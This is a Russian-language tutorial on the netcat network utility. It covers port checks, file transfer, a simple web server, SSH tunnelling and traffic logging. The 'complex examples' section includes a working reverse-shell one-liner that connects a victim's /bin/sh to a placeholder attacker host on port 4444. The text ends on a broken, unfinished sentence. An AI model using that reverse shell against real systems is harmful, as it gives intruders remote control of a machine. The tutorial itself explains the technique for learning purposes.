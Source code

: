 Утилита `netcat` — это мощный инструмент командной строки Linux, предназначенный для передачи данных между сетевыми устройствами через TCP/IP соединения. 
Она позволяет отправлять и получать данные по сети, проверять доступность сервисов, эмулировать клиентские запросы и серверные ответы, создавать туннели и многое другое. 

## Простые примеры

### Проверка доступности веб-сайта
Проверяем возможность подключения к порту HTTP сервера:
```bash
nc -vz example.com 80
```
Флаг `-v` включает подробный вывод, а `-z` заставляет Netcat немедленно закрывать соединение после проверки порта.

### Передача файла на удалённый хост
Передача локального файла на удалённую машину:
**Приёмник (сервер):**
```bash
nc -l 1234 > received_file.txt
```
**Отправитель (клиент):**
```bash
nc example.com 1234 < local_file.txt
```

### Эмуляция простого веб-сервера
Можно создать простой веб-сервер, возвращающий статический HTML-документ:
```bash
echo "<html><body><h1>Hello World!</h1></body></html>" | nc -l 8080
```
Теперь открываем браузер и вводим адрес `http://localhost:8080`, увидим простую страницу с текстом.

---

## Сложные примеры

### Создание обратного шелла (обратная оболочка)
Используется злоумышленниками для проникновения в систему. Для демонстрации приведён пример безопасного тестирования.

**Сервер (хост, ожидающий подключение):**
```bash
nc -lvnp 4444
```
**Клиент (машина жертвы, отправляющая команду оболочки):**
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker_ip 4444 >/tmp/f
```
Здесь создаётся FIFO-файл (`mkfifo`), который перенаправляет команды обратно атакующему хосту, создавая интерактивную сессию оболочки.

### Фильтрация трафика через SSH-туннелирование
Netcat также полезен для создания защищённых каналов связи через SSH. Например, передайте трафик через зашифрованный канал SSH, минуя внешние ограничения сети:
```bash
ssh user@remote_host -L 8080:example.com:80
```
Затем внутри сессии SSH выполняем:
```bash
nc localhost 8080
```
Это создаёт прокси-соединение от вашего компьютера к целевому сайту через шифрование SSH.

### Автоматическое создание дампа трафика в файл
Иногда полезно сохранять весь проходящий трафик через сеть в файл для последующего анализа:
```bash
nc -lvp 1234 | tee traffic_dump.log
```
Эта команда прослушивает порт и сохраняет всю входящую информацию в файл одновременно показывая её на экране терминала.

---

Netcat отлично подходит для быстрой передачи файлов между двумя машинами. 
Вот два основных способа передать файлы с использованием Netcat:

### Способ №1: Классическая передача через перенаправление ввода-вывода

#### Сервер (принимающая сторона):
1. Запустите Netcat в режиме ожидания подключений на определённом порту и направьте входящий поток данных в нужный файл:
   ```bash
   nc -lvp PORT_NUMBER > FILE_NAME
   ```
   
   Пример:
   ```bash
   nc -lvp 1234 > myfile.txt
   ```

   Здесь:
   - `-l`: режим слушателя (слушает входящие соединения).
   - `-v`: выводит дополнительную информацию (детали подключения).
   - `-p`: указывает номер порта для прослушивания.
   - `<FILE_NAME>`: имя файла, куда будут записаны полученные данные.

#### Клиент (отправляющая сторона):
1. Подключитесь к указанному IP адресу и порту, передав содержимое файла в качестве вывода:
   ```bash
   nc SERVER_IP PORT_NUMBER < FILE_NAME
   ```
   
   Пример:
   ```bash
   nc 192.168.1.100 1234 < file_to_send.txt
   ```

   Таким образом, отправляемый файл передаётся по сети на принимающую сторону, где он сохраняется в указанный файл.

---

### Способ №2: Использование встроенных команд для автоматизации процесса отправки и приёма

Если вам нужен автоматизированный способ отправки и приёмки файла одним простым действием, можно воспользоваться комбинацией Netcat и Bash-сценарием.

#### Отправка файла автоматически:
```bash
#!/bin/bash
IP="REMOTE_SERVER_IP"
PORT=1234
FILE="myfile.txt"

# Отправляем файл
nc "$IP" "$PORT" < "$FILE"
```

#### Приём файла автоматически:
```bash
#!/bin/bash
PORT=1234
OUTPUT_FILE="received_file.txt"

# Ждём подключения и сохраняем полученный файл
nc -lvp "$PORT" > "$OUTPUT_FILE"
```

Таким образом, оба сценария работают вместе: один запускается на стороне клиента для отправки файла, другой — на стороне сервера для его приёма.
Использовать netcat для передачи файлов вместе с SSY-туннелем. См.

---


